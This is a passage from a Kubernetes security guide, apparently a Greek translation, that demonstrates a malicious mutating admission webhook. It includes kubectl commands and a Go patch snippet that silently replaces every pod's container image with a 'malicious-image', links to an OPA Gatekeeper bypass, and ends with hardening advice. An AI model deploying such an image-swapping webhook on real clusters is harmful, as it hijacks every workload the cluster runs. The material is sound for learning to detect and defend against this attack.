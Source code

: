 Στη συνέχεια, αναπτύξτε ένα νέο pod:
```bash
kubectl run nginx --image nginx
kubectl get po -w
```
Όταν μπορείτε να δείτε το σφάλμα `ErrImagePull`, ελέγξτε το όνομα της εικόνας με μία από τις ερωτήσεις:
```bash
kubectl get po nginx -o=jsonpath='{.spec.containers[].image}{"\n"}'
kubectl describe po nginx | grep "Image: "
```
![malicious-admission-controller.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433512073/leFXtgSzm.png?auto=compress,format\&format=webp)

Όπως μπορείτε να δείτε στην παραπάνω εικόνα, προσπαθήσαμε να εκτελέσουμε την εικόνα `nginx`, αλλά η τελική εκτελούμενη εικόνα είναι `rewanthtammana/malicious-image`. Τι μόλις συνέβη!!;

#### Technicalities <a href="#heading-technicalities" id="heading-technicalities"></a>

Το σενάριο `./deploy.sh` δημιουργεί έναν μεταβαλλόμενο ελεγκτή εισόδου webhook, ο οποίος τροποποιεί τα αιτήματα προς το Kubernetes API όπως καθορίζεται στις γραμμές ρύθμισης παραμέτρων του, επηρεάζοντας τα αποτελέσματα που παρατηρούνται:
```
patches = append(patches, patchOperation{
Op:    "replace",
Path:  "/spec/containers/0/image",
Value: "rewanthtammana/malicious-image",
})
```
The above snippet replaces the first container image in every pod with `rewanthtammana/malicious-image`.

## OPA Gatekeeper bypass

{% content-ref url="../kubernetes-opa-gatekeeper/kubernetes-opa-gatekeeper-bypass.md" %}
[kubernetes-opa-gatekeeper-bypass.md](../kubernetes-opa-gatekeeper/kubernetes-opa-gatekeeper-bypass.md)
{% endcontent-ref %}

## Καλές Πρακτικές

### **Απενεργοποίηση Αυτόματης Τοποθέτησης Δεδομένων Λογαριασμού Υπηρεσίας**

* **Pods και Λογαριασμοί Υπηρεσίας**: Από προεπιλογή, τα pods τοποθετούν ένα διακριτικό λογαριασμού υπηρεσίας. Για να ενισχυθεί η ασφάλεια, το Kubernetes επιτρέπει την απενεργοποίηση αυτής της αυτόματης τοποθέτησης.
* **Πώς να Εφαρμόσετε**: Ορίστε `automountServiceAccountToken: false` στη διαμόρφωση των λογαριασμών υπηρεσίας ή των pods από την έκδοση Kubernetes 1.6 και μετά.

### **Περιοριστική Ανάθεση Χρηστών σε RoleBindings/ClusterRoleBindings**
